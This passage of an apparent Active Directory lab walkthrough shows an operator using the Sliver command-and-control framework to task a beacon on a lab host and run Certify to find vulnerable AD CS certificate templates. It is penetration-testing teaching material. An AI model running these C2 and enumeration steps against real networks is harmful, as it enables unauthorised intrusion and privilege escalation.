 ```bash
[*] Beacon 094da7cd OTHER_WITCH - 192.168.56.22:50267 (castelblack) - windows/amd64 - Tue, 21 Nov 2023 11:06:50 UTC

sliver > beacons

 ID         Name          Transport   Hostname      Username              Operating System   Last Check-In   Next Check-In 
========== ============= =========== ============= ===================== ================== =============== ===============
 094da7cd   OTHER_WITCH   http(s)     castelblack   NORTH\samwell.tarly   windows/amd64      12s             51s           
```

To interact with the beacon type `use` and the ID of the Beacon. As its a beacon and not an active session, Sliver will wait for the beacon to check in then task it with the commands to run, in this case `ls`

You can check which tasks are pending with the `tasks` command

```bash
sliver > use 094da7cd

[*] Active beacon OTHER_WITCH (094da7cd-7f7f-49f3-b6c1-ff5d5f578385)

sliver (OTHER_WITCH) > ls

[*] Tasked beacon OTHER_WITCH (a09c2aff)

sliver (OTHER_WITCH) > tasks

 ID         State     Message Type   Created                         Sent   Completed 
========== ========= ============== =============================== ====== ===========
 a09c2aff   pending   Ls             Tue, 21 Nov 2023 11:22:16 UTC

```

Now our Beacon is up and running lets look for some vulnerable AD CS Templates. 

First check certify is installed

```bash
sliver (OTHER_WITCH) > armory install certify

[*] Installing alias 'Certify' (v0.0.3) ... done!
```

Now task our Beacon with looking for vulnerable templates. As there are 2 Domains, check both sevenkingsoms.local and essos.local


```bash
sliver (OTHER_WITCH) > certify find /vulnerable /domain:sevenkingdoms.local

[*] Tasked beacon OTHER_WITCH (e251386c)

[+] OTHER_WITCH completed task e251386c

[*] certify output:

   _____          _   _  __              
  / ____|        | | (_)/ _|             
 | |     ___ _ __| |_ _| |_ _   _        
 | |    / _ \ '__| __| |  _| | | |      
 | |___|  __/ |  | |_| | | | |_| |       
  \_____\___|_|   \__|_|_|  \__, |   
                             __/ |       
                            |___./        
  v1.1.0                               
```